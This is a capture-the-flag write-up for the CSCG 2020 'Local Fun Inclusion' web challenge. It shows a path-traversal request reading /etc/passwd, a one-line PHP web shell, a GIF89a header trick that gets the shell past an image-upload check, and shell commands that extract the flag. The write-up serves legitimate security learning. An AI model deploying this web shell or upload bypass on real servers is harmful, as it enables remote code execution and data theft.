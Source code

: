 # Local Fun Inclusion

Local Fun Inclusion was a web challenge in the CSCG 2020.
The name is clearly a hint on the common [Local file Inclusion](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) vulnerability.
On the supplied URL we can find a website on which we can upload an image and view the uploaded image. But first of all let's test the LFI attack if we visit http://lfi.hax1.allesctf.net:8081/index.php?site=../../../etc/passwd, we are ganted with the `/etc/passwd` file, so the LFI acutally works. The idea now is to somehow upload some kind of shell or other php payload to the server and execute it. Luckily there is a way how we can upload a file. But there a few restrictions. For example if we try to upload:
`payload1.php`
```
<?php system($_GET["c"]); ?>
```
We get the error : `Invalid image extension!` But changing the extension doesn't help much. `payload2.gif` : `Only pictures allowed!`
So we have to make the server believe, that the payload we upload is a legit image. Luckily there is a very simple way : If we preped `GIF89a` to any file, the file command thinks it is a gif image.
`payload3.gif`:
```
GIF89a
<?php system($_GET["c"]); ?>
```
That got uploaded! Now we can change the `site` get parameter to our image and the code we supplied get executed.
And using the `c` parameter we can execute shell commands.
`ls` shows, that there is a file called `flag.php`, but if try to `cat flag.php`, we don't see any output, that's because it contains php code which gets executed and doesn't get echoed. But there is a simple way around that `base64 flag.php` echos the base64 encoded file. We can decode that localy and get:
```
<?php

$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```
